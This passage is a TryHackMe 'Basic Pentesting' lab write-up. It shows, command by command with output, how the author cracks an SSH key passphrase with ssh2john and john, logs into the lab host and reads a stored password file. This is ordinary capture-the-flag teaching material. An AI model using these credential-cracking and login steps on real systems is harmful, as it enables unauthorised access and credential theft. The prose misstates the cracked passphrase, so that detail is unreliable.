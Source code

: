```shell
root@cyb3rhoL1c:~/Desktop/TryHackMe/Basic Pentesting# nano id_rsa
root@cyb3rhoL1c:~/Desktop/TryHackMe/Basic Pentesting# chmod 600 id_rsa 
root@cyb3rhoL1c:~/Desktop/TryHackMe/Basic Pentesting# ssh kay@10.10.174.50 -i id_rsa 
Enter passphrase for key 'id_rsa':
```
:( we need password so let's crack this `id_rsa` file with `ssh2john.py`

`/usr/share/john/ssh2john.py id_rsa > john_kay.txt`

and then let crack it with john

```shell
root@cyb3rhoL1c:~/Desktop/TryHackMe/Basic Pentesting# john john_kay.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:06 DONE (2020-06-12 02:08) 0.1519g/s 2179Kp/s 2179Kc/s 2179KC/sa6_123..*7¡Vamos!
Session completed

```
we got the password `beewax`

now login with this password

```shell
root@cyb3rhoL1c:~/Desktop/TryHackMe/Basic Pentesting# ssh kay@10.10.174.50 -i id_rsa 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$
```
We're in :)

```shell
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$
```

Yes!, we got the final password :) 
`submit it` and you've completed this room 

![Desktop View](/assets/img/sample/Basic Pentesting/Screenshot_2020-06-12_02-11-22.png)

Thanks for reading

[Enjoy :)]()
